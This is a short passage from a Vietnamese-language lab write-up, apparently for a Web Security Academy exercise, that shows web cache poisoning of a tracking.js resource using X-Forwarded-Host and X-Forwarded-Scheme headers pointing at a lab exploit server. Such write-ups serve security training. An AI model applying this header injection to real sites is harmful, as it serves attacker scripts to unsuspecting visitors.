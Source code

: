 ->ta có thể thực hiện cache poisoning ở path `/resources/js/tracking.js` để khi trang web cần load file `tracking.js`, nó sẽ redirect sang file script của ta

Sử dụng Explotit Server để host file script

![Untitled](wu_media/Untitled%208.png)

Posion cache bằng 2 header:

```
X-Forwarded-Host: exploit-0aba005f04890ba4c0dceecb0138006d.web-security-academy.net/exploit
X-Forwarded-Scheme: http
```

![Untitled](wu_media/Untitled%209.png)

